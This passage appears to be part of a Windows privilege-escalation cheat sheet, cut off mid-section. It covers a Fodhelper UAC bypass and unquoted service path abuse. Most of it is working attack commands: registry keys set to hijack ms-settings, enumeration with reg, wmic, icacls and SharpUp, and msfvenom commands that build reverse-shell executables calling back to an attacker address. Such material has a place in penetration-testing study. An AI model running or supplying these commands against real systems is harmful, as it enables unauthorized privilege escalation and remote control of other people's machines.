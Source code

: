 ```bash
```
## UAC Bypass
### Enumeration
```powershell
$ reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
### Tool Enumeration
```powershell
$ SharpUp.exe audit
```
### Exploitation
ℹ️ This case study leverages a UAC384 bypass that abuses the Fodhelper.exe application
```bash
on attacker:
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.10.15 lport=9001 -f exe > mallicous.exe

on victim:
$ New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
$ New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
$ Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "powershell -exec bypass -c C:\<full_path>\<binary.exe>" -Force
C:\Windows\System32\fodhelper.exe
```
## Unquoted Service Path
### Enumeration
```powershell
$ wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
$ sc qc "Vulnerable Service 1"
$ icacls "C:\Program Files\Vulnerable Service1"
```
### Tool Enumeration
```powershell
$ SharpUp.exe audit UnquotedServicePath
```
![](/images/cheatsheets/Windows-LPE/Unquoted-Service-Tool-Enumeration.png)
### Exploitation
```powershell
$ sc query "Vulnerable Service 1"

on attacker:
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=9001 -f exe > Service.exe

on victim:
```